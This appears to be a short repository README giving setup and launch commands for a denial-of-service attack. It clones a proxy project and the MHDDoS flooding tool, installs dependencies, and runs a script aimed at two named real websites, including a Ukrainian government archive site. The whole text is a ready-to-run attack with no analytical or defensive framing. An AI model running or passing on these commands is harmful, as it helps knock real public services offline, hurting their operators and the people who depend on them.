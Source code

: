 
git clone https://github.com/dep-x/proxy.git

cd proxy

git clone https://github.com/MHProDev/MHDDoS.git

python3 -m pip install -r MHDDoS/requirements.txt

python3 runner.py https://archivzp.gov.ua http://arhives.in.ua
